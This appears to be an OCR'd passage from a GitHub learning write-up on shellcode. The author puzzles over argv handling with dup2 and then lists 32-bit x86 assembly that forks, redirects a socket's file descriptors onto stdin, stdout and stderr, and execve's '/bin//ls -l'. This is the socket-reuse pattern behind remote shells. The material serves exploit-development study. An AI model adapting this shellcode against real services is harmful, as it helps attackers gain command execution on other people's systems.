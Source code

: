but before let's talk about weird thing :
if I write : `char	*cmd[] = {"/bin/ls", NULL, NULL};`
without `dup2`, so that the output will be on the server side. That works !
**BUT**, if now I use `dup2` so that the output will be on the client side it doesn't work
So... It's pretty weird because that could work with `*cmd[] = {"/bin/ls", "-l", NULL};`
We just replaced "-l" by "NULL" and it doesn't work anymore on client side :'(...
	
I don't know how to solve those problems :'(. But let's try to write a shellcode that will launch `*cmd[] = {"/bin/ls", "-l", NULL};` on the server side...
	
```assembly
		.globl main
		.type	main, @function

	main:
	push $0x02			# syscall for fork
	pop %eax			# value in %eax (push/pop better than mov)
	int $0x80			# call fork --> cause %eax = 0


	push $0x08			# value of socket = 8
	pop %ebx			# put the value of the socket in %ebx

	#dup2(socket, i) where i = 0, 1 then 2;
	xor %edx, %edx			# %edx to 0
	xor %eax, %eax			# %eax to 0
	xor %ecx, %ecx
	mov $0x2, %cl			# count and %ecx = 2, 1, 0
	dup2:
		movb $0x3f, %al	 	# dup2()
		int $0x80 		# call dup2()
		dec %ecx 		# decr %ecx
		jns dup2


	#execve("/bin/ls", ["/bin//ls", "-l"], NULL);
	mov $11, %al			# execve
	push %edx			# Null at the end of the string
	push $0x736c2f2f		# "//ls" $0x68732f2f
	push $0x6e69622f		# "/bin"
	mov %esp, %ebx			# address of "/bin//sh\0" in %ebx

	push %edx			# push NULL
	push $0x20206c2d		# push "-l  "
	mov %esp, %esi			# address of "-l  "

	push %edx
	push %edx			# push NULL
	push %esi			# push addess of "-l  "
	push %ebx			# push address of "/bin//sh\0"
	mov %esp, %ecx			# argv (2)
	int $0x80
```
	
